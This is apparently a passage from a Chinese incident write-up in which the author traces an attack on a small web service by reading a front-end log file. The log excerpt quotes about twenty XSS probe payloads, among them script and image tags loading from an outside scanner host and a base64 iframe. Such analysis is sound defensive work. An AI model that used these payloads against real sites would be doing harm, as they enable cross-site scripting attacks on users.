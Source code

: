 果然是在挖坑，woc。



## 3. 如何被攻击的

由于运行的服务比较少，排查也比较简单，最终注意到了一个前端的日志文件`out.log`。

正常日志大概是这个样子的：

```log
 READY  Server listening on http://localhost:3000
 READY  Server listening on http://localhost:3000
 READY  Server listening on http://localhost:3000
 {
  statusCode: 404,
  msg: 404,
  message: '{\n  "statusCode": 404,\n  "msg": 404\n}'
}
```

但是其中有一段就比较可疑了：

```log
创建
$冬天"</title>1<ScRiPt>hZEn(9136)</ScRiPt>
创建
$冬天""onmouseover='hZEn(98532)'bad="
创建
$冬天""9LX2='hZEn([!+!])'gF7="
创建
$冬天"\u0022onmouseover='hZEn(96153)'bad=\u0022
创建
$冬天""onmouseover='hZEn(97134)'bad="
创建
$冬天""sTYLe='acu:Expre/**/SSion(hZEn(9330))'bad="
创建
$冬天"1<ScRiPt>hZEn(9354)</ScRiPt>
创建
$冬天"<WIZOGH>DQVRL[!+!]</WIZOGH>
创建
$冬天"<ScRiPt 
>hZEn(9570)</ScRiPt>
创建
$冬天"<ScRiPt/acu src=//xss.bxss.me/t/xss.js?9287></ScRiPt>
创建
$冬天"<iframe src='data:text/html;base64,PHNjcmlwdD5hbGVydCgnYWN1bmV0aXgteHNzLXRlc3QnKTwvc2NyaXB0Pgo=' invalid='9214'>
创建
$冬天"<body onload=hZEn(9976)>
创建
$冬天"<img/src="//xss.bxss.me/t/dot.gif"onload=hZEn(9914)>
创建
$冬天"<img src=xyz OnErRor=hZEn(9348)>
创建
$冬天"<img/src=">" onerror=alert(9252)>
创建
$冬天"<ScRiPt >hZEn(9411)</sCripT>
创建
$冬天"&lt;ScRiPt&gt;hZEn(9079)&lt;/sCripT&gt;
创建
$冬天"<input autofocus onfocus=hZEn(9337)>
创建
$冬天"<a HrEF=http://xss.bxss.me></a>
创建
$冬天"<a HrEF=jaVaScRiPT:>
创建
```